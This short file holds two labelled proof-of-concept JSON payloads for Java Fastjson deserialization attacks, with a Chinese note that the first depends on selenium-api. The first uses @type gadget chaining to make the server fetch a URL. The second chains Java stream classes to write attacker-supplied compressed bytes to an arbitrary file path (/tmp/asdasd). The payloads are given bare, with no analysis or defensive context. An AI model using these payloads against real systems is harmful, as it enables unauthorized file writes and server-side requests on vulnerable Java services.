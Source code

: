 #POC1
依赖selenium-api

{"@type":"java.lang.Exception","@type":"org.joychou.DatasourceException", "dataSource": {"@type": "java.net.URL", "val": "http://127.0.0.1:8888/fastjson"}}
#POC2
{
"@type": "java.lang.AutoCloseable",
"@type": "sun.rmi.server.MarshalOutputStream",
"out": {
"@type": "java.util.zip.InflaterOutputStream",
"out": {
"@type": "java.io.FileOutputStream",
"file": "/tmp/asdasd",
"append": true
},
"infl": {
"input": {
"array": "eJxLLE5JTCkGAAh5AnE=",
"limit": 14
}
},
"bufLen": "100"
},
"protocolVersion": 1
}
